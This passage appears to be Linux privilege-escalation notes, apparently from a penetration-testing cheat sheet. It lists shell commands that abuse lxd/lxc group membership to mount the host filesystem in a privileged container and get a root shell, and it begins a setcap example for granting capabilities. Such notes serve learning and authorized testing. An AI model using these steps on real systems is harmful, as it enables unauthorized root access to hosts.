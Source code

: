     # abuse lxc membership
    unzip alpine.zip

    lxd init
    # go with defaults
    
    lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
    
    lxc init alpine r00t -c security.privileged=true
    # this makes root user in container same as root user on host
    
    lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
    # mount the host file system
    
    lxc start r00t
    
    lxc exec r00t /bin/sh
    # shell inside container instance
    
    # to access root directory
    cd /mnt/root/root

    # we can similarly abuse other common privileged groups
    # like Docker, disk, ADM
    ```

* Capabilities:

    * allows specific privileges to be granted to processes

        ```sh
        sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic
        # setcap used to set capabilities for executables
        # for example, cat_net_bind_service allows to bind to network ports

        # +ep grants effective and permitted privileges for specified capability to executable
        ```
    